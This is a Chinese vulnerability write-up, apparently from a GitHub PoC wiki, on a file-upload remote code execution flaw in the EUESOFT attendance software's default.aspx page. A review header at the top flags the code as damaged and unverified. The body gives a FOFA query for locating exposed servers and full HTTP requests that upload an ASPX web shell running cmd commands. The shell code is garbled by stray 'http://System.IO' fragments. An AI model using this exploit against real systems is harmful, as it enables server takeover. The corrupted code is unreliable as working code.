

# 亿华考勤软件 default.aspx 文件上传致RCE漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：亿华EUESOFT考勤软件
- 本文讨论：filemanage/file/default.aspx上传
- 版本、权限与配置前提：声称≤V9.0，ASP.NET、可访问上传管理页；ViewState需对应环境
- 资料类型：文件上传复现；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- ASPX代码出现http://System.IO类型/调用及全角Jscript字符，片段明显损坏，不能作为可执行证据
- 固定ViewState/生成器未说明动态获取与校验；无保存路径和文本化执行结果
- 在野利用已知与广泛影响无出处

### 操作风险与恢复

- 文中写入/上传步骤会创建或覆盖目标文件；须先核对服务账户写权限、保存路径和脚本解析条件，验证后按原路径核查残留

### 待核与来源

- 版本、匿名访问、脚本执行及安全版本待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->

# 漏洞描述

亿华考勤软件 default.aspx 接口存在文件上传漏洞，未经身份攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

# 影响版本

version <= V9.0

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="EUESOFT-考勤软件"

POC/EXP：访问该路径可直接上传

GET /filemanage/file/default.aspx HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

POC/EXP：

POST /filemanage/file/default.aspx HTTP/1.1
Host: 127.0.0.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----geckoformboundary787f61f28ad8b037c0c81d8883ef3b37
Priority: u=0, i
Content-Length: 1145

------geckoformboundary787f61f28ad8b037c0c81d8883ef3b37
Content-Disposition: form-data; name="__VIEWSTATE"

/wEPDwULLTEzNjk1NjQwNjYPZBYCAgMPZBYGAgEPDxYCHgRUZXh0BQ0vRmlsZXNVcGxvYWQvZGQCAw8PFgIeB1Zpc2libGVoZGQCBA8PFgIfAWhkZBgBBR5fX0NvbnRyb2xzUmVxdWlyZVBvc3RCYWNrS2V5X18WAQUIQXV0b05hbWW+hnIUyETD/5rHrLALRN1Nkm8eKsAOC0ToDPaGHqsOmg==
------geckoformboundary787f61f28ad8b037c0c81d8883ef3b37
Content-Disposition: form-data; name="__VIEWSTATEGENERATOR"

5338F018
------geckoformboundary787f61f28ad8b037c0c81d8883ef3b37
Content-Disposition: form-data; name="fileToUpload"; filename="test.aspx"
Content-Type: image/png

<%@ Page Language="Jｓｃｒｉｐｔ" validateRequest="false" %>
<%
var c=new System.Diagnostics.ProcessStartInfo("cmd");
var e=new System.Diagnostics.Process();
var out:http://System.IO.StreamReader,EI:http://System.IO.StreamReader;
c.UseShellExecute=false;
c.RedirectStandardOutput=true;
c.RedirectStandardError=true;
e.StartInfo=c;
c.Arguments="/c " + Request.Item["cmd"];
e.Start();
out=e.StandardOutput;
EI=e.StandardError;
e.Close();
Response.Write(out.ReadToEnd() + EI.ReadToEnd());
http://System.IO.File.Delete(Request.PhysicalPath);
Response.End();%>
------geckoformboundary787f61f28ad8b037c0c81d8883ef3b37
Content-Disposition: form-data; name="UploadBtn"

上传文件
------geckoformboundary787f61f28ad8b037c0c81d8883ef3b37
Content-Disposition: form-data; name="NewFileText"

------geckoformboundary787f61f28ad8b037c0c81d8883ef3b37
Content-Disposition: form-data; name="NewFolderText"

------geckoformboundary787f61f28ad8b037c0c81d8883ef3b37
Content-Disposition: form-data; name="setRootTxt"

------geckoformboundary787f61f28ad8b037c0c81d8883ef3b37--

# 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
